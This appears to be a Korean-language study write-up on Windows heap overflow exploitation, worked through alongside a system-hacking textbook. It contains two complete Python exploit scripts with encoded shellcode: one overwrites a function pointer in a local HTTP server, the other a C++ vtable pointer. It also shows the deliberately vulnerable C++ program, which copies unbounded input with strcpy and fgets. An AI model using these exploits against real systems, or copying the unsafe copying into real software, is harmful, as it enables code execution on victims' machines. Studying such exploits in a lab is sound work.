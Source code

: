 ```yaml
---
title: 윈도우 시스템 해킹 - 힙 버퍼 오버플로우
category:
    - System Hacking
tags:
    - Windows
    - System
    - Hacking
---
```

[윈도우 시스템 해킹 가이드 / 김현민 저] <br/>
위의 책을 보면서 실습한 코드를 정리함.

마찬가지로 이전과 같이 계산기를 띄우는 쉘코드를 사용하였다.

---

### # Heap

힙 영역은 <u>1. stack보다 큰 메모리를 필요로 할 때</u> 와 <u>2. 객체를 생성할 때</u> 메모리 공간을 사용한다고 한다. 메모리를 배우면서 data, bss, heap 과 같은 영역들을 구분지어서 배웠기 때문에 "Heap-based overflow"라고 하면 data/bss section들은 아닐 것이라고 생각 했었는데, 세 section 모두 overflow 대상으로는 비슷하므로 전체를 묶어서 생각하면 될 듯 싶다.

---

### # Function Pointer Overwrite

#### 1. Vulnerable Code

취약한 코드는 직접 구현하지 않고 http://cafe.naver.com/secuholic -> [윈도우 시스템 해킹 가이드] -> [자료실]에서 다운받아 사용하였다. (vul_HTTP_server.exe)

#### 2. Exploit Code

```python
from socket import *

NOP = b"\x90" * 200
SHELLCODE = (
    b"\xe8\xff\xff\xff\xff\xc2\x5e\x33\xc9\xb1\x2a\xbf\xce\xe7\xd6\xa7"
    b"\x31\x7e\x13\x83\xc6\x04\xe2\xf8\x45\x0b\x3d\x97\x8c\x4a\xb6\xa4"
    b"\x16\x6c\x25\x94\x0e\xd4\x29\x0b\xcd\x1f\x52\x67\xbb\x1e\x5f\xda"
    b"\xde\x86\xef\xda\xde\x92\x33\xa8\x79\xb3\x87\x59\x45\x9a\xce\x2c"
    b"\xb9\xfb\xd5\x54\x45\xdb\x40\xa4\x35\x6c\x11\x64\xaa\x46\xe6\xa7"
    b"\xce\xe7\x5d\xe7\xc2\x6c\x96\xb3\x45\xff\x5d\xbc\x45\xbc\xc6\x2c"
    b"\xb5\xdb\xd5\x5c\x45\x98\xae\xa4\x35\x6e\xab\xbf\x45\x90\xf6\xa4"
    b"\x3d\x6c\x99\x83\xcd\x2c\xe5\x75\xae\xd4\x29\xc1\x71\x54\xd4\x4f"
    b"\x56\x18\x29\x58\x47\xa2\xf6\xc6\xfd\x18\xb0\x18\xb7\xe3\x3e\x2e"
    b"\x31\x18\x29\x2e\x8b\xc3\xe5\x67\x08\xa2\xda\xc4\x08\xa2\xdb\xc6"
    b"\x08\xa2\xd8\xcb\x08\xa2\xd9\xc4\x47\xa2\xc6\x94\x0e\xa7\x86\x2a"
    b"\x8b\xeb\x86\x58\x9b\xc7\xe5\x67\x9e\x18\x83\x83"
)

print("Shellcode Length :", len(SHELLCODE))
DUMMY = b"A"*(499-len(NOP+SHELLCODE))
BUF = b"\x40\x61\x41\x00"
PAYLOAD = NOP + SHELLCODE + DUMMY + BUF

print("[+] Sending Packet...")
s = socket(AF_INET, SOCK_STREAM, 0)
s.connect(('localhost', 80))
s.send(b"GET /"+PAYLOAD)
print(s.recv(150))
s.close()
```

overflow를 일으키는 방법과 실행흐름을 바꾸는 원리는 stack overflow와 매우 비슷하므로 쉽게 코드작성이 가능했으므로 자세한 설명은 생략.

---

### # Vtable Overwrite

대략적으로 아래와 같은 형태로 Vtable이 존재한다. virtual 함수들을 실행할 때는 Vtable을 참조하므로 `Object[0][#func]` 느낌으로 호출하는데, 여기서 `Object[0]` 또는 `Object[0][#func]`의 주소 자체를 바꿔주면 실행 흐름을 바꿀 수 있다. Overflow로 바꿀 수 있는 부분은 전자이므로 해당 부분을 바꿔서 exploit한다.
```
Object  ->  Vtable  ->  vfunc1
            member1     vfunc2
            member2     vfunc3
```

### 1. Vulnerable Code
```cpp
#include "stdafx.h"
#include <string>
#include <cstdlib>
#include <iostream>
using namespace std;
#pragma warning(disable:4996)
#pragma warning(disable:2664)

class Book {
private:
	char name[100];
	int page;
public:
	Book(char * _name, int _page) {
		strcpy(name, _name);
		page = _page;
	}
	virtual void setName(char* input) {
		char* buf = (char*)malloc(20);
		strcpy(buf, input);
		printname(buf);
		getName();
	}
	virtual void printname(char* buf) {
		printf("name : %s", buf);
	}
	virtual char* getName() {
		return name;
	}
};


int main(int argc, char* argv[]) {
	if (argc != 2) {
		printf(" Usage: bookmanager.exe [filename]\n");
		exit(1);
	}
	static char contents[1000] = { 0, };
	char name[16] = "windows_hacking";
	static Book mybook(name, 1);
	printf("object addr : 0x%x\n", &mybook);
	printf("object vtable addr : 0x%p\n", mybook);
	printf("buf addr : 0x%p\n", &contents);

	FILE *f = fopen(argv[1], "r");
	fgets(contents, 1500, f);
	mybook.setName(contents);
	return 0;
}
```

원래 코드에서는 `"windows_hacking"`을 객체 생성할 때 바로 넣어 주었는데, 에러가 발생하여 name변수를 추가해 넣어주었다. 보안 옵션으로는 DEP를 해제해 주었다.

### 2. Exploit Code

```python
import struct

print(" # bookmanager.exe exploit ")

shellcode = (
        b"\xe8\xff\xff\xff\xff\xc2\x5e\x33\xc9\xb1\x2a\xbf\xce\xe7\xd6\xa7"
        b"\x31\x7e\x13\x83\xc6\x04\xe2\xf8\x45\x0b\x3d\x97\x8c\x4a\xb6\xa4"
        b"\x16\x6c\x25\x94\x0e\xd4\x29\x0b\xcd\x1f\x52\x67\xbb\x1e\x5f\xda"
        b"\xde\x86\xef\xda\xde\x92\x33\xa8\x79\xb3\x87\x59\x45\x9a\xce\x2c"
        b"\xb9\xfb\xd5\x54\x45\xdb\x40\xa4\x35\x6c\x11\x64\xaa\x46\xe6\xa7"
        b"\xce\xe7\x5d\xe7\xc2\x6c\x96\xb3\x45\xff\x5d\xbc\x45\xbc\xc6\x2c"
        b"\xb5\xdb\xd5\x5c\x45\x98\xae\xa4\x35\x6e\xab\xbf\x45\x90\xf6\xa4"
        b"\x3d\x6c\x99\x83\xcd\x2c\xe5\x75\xae\xd4\x29\xc1\x71\x54\xd4\x4f"
        b"\x56\x18\x29\x58\x47\xa2\xf6\xc6\xfd\x18\xb0\x18\xb7\xe3\x3e\x2e"
        b"\x31\x18\x29\x2e\x8b\xc3\xe5\x67\x08\xa2\xda\xc4\x08\xa2\xdb\xc6"
        b"\x08\xa2\xd8\xcb\x08\xa2\xd9\xc4\x47\xa2\xc6\x94\x0e\xa7\x86\x2a"
        b"\x8b\xeb\x86\x58\x9b\xc7\xe5\x67\x9e\x18\x83\x83"
)

payload = b""
payload += struct.pack("<L", 0xfeb288 + 0xc) * 3
payload +=  b"\x90" * 30
payload += shellcode
payload += b"A" * (1000 - len(payload))
payload += struct.pack("<L", 0xfeb288)

f = open("exp.txt", "wb")
f.write(payload)
f.close()
print("\tlength =", len(payload))

print("[+] Done !!")
```

Exploit을 해보니 Linux의 PLT, GOT의 느낌과 비슷해서 검색을 해보니 맞는 것 같다. 즉, 사용되는 코드만 data영역에 로드하고 그 주소를 vtable에 저장하여 사용한다.

객체 안의 함수를 virtual이 아니라 일반 함수로 한다면, 당연히 프로그램이 실행되면서 text 영역에 로딩되고 함수 주소가 call로 하드코딩 되어 실행되기 때문에 비슷한 방법으로는 exploit이 불가능할 것 같다.
